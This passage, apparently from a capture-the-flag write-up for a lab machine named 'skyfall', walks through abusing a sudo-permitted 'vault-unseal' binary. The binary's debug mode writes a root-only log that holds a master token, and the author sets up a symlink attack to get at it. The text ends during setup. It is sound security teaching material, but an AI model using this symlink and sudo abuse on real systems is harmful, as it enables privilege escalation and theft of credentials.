 so sudo allows me to run `vault-unseal` with specific inputs, and allows for options afterwards. `[-vhd]*` means that the commands can start with any of the characters in the bracket, then anything afterwards. using the above command with `-h` at the end gives us
```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
Usage:
  vault-unseal [OPTIONS]

Application Options:
  -v, --verbose        enable verbose output
  -d, --debug          enable debugging output to file (extra logging)
  -c, --config=PATH    path to configuration file

Help Options:
  -h, --help           Show this help message

```

Looking at this, it seems we can access the options `verbose` and `debug`. if I run both of them in my home directory, I get
```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~$ ls -la
...
-rw------- 1 root  root  4095 Feb  4 06:25 debug.log
...
```

running with just verbose adds these two lines
```bash
[-] Master token found in config: ****************************
[>] Enable 'debug' mode for details
```

so this debug.log is the one we want. however, the permissions only allow root to read the file. However, theres a workaround. 

Because the program just writes to debug.log without checking things like if it exists already, its easy to theorize that it doesnt check the file at all. Unfortunately from our current user, we cannot verify this. 

However, we can take advantage of this. First, create a symlink in a fresh folder, then make a file that your symlink points to. This should set up the pretext for our exploit.
```bash
askyy@skyfall:~$ mkdir sym
askyy@skyfall:~$ ln -s sym/test.123 sym/debug.log
askyy@skyfall:~$ touch sym/test.123
askyy@skyfall:~$ ls -la sym/
total 8
drwxrwxr-x 2 askyy askyy 4096 Feb  4 06:33 .
drwxr-x--- 5 askyy askyy 4096 Feb  4 06:33 ..
lrwxrwxrwx 1 askyy askyy   12 Feb  4 06:33 debug.log -> test.123
-rw-rw-r-- 1 askyy askyy    0 Feb  4 06:33 test.123
```
